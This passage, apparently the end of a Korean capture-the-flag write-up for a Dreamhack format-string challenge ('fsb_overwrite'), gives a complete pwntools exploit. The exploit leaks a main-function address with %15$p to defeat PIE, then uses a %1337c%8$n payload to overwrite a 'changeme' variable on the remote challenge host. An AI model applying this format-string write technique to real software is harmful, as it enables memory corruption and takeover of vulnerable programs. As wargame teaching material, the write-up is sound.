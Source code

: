 ```bash

p.interactive()
```





<img width="500" height="218" alt="image" src="https://github.com/user-attachments/assets/0848aac7-a26b-4254-b83c-4c1ee961ec12" />



그럼 이제 마무리를 해보자.  

우리가 쓰는 값들은 이전 사진에서 보이듯 rsp+8 위치, 즉 8번째 인자에 저장되므로 8번째 기준으로 익스플로잇 코드를 작성해주면 된다.  

<br>

**익스플로잇 코드**

```python
from pwn import *

#p = process('./fsb_overwrite')
p= remote("host3.dreamhack.games" ,15593)
e = ELF('./fsb_overwrite')

offset_changeme = e.symbols['changeme']
offset_main = e.symbols['main']
print("main offset: ", hex(offset_main))

p.sendline(b'%15$p')
main_addr = int(p.recvline()[:-1], 16)

base = main_addr - offset_main
changeme = base + offset_changeme

print("base: ", hex(base))
print("changeme: ", hex(changeme))

payload = b'%1337c%8$n' + b'A'*6 + p64(changeme)
p.sendline(payload)

p.interactive()
```

<img width="776" height="482" alt="image" src="https://github.com/user-attachments/assets/7e55a741-5f41-4734-a7b5-7480f0f3de28" />

<img width="703" height="547" alt="image" src="https://github.com/user-attachments/assets/2d4db576-e1e2-4567-826d-f1863e516c72" />

이렇게 쉽게 플래그를 얻어냈다.
